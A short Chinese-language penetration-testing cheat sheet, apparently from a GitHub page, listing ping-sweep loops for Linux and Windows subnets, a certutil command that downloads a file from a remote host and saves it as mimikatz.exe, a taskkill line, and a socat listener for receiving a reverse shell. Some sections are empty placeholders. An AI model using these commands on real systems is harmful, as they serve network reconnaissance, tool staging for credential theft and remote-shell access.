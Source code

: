 ```
```

### 3、通信类信息收集  
  
本地ip探测，linux shell脚本  

```
# linux
for i in {1..254}; do (ping -c 1 172.18.0.${i} | grep &#34;bytes from&#34; | grep -v &#34;Unreachable&#34; &); done;

```

  
windows脚本，ip探测  

```
for/l %i in（1，1，255) do @ping 192.168.1.%i -w 1 -n 1 | find /i &#34;ttl&#34;

```

## 三、常用渗透命令  
### 1、Windows  
#### cmd下载  

```
certutil -urlcache -split -f http://192.168.93.20:5000/frpc.ini c:\mimikatz.exe # 从指定服务器下载文件
taskkill /PID 356 /F # 强制结束进程信息

```

#### powershell  

```
# 更新中

```

### 2、linux  

```
# 见信息收集

```

## 反弹shell中的监听方  
  
socat监听本地端口  

```
socat TCP-LISTEN:4444 STDOUT

```

  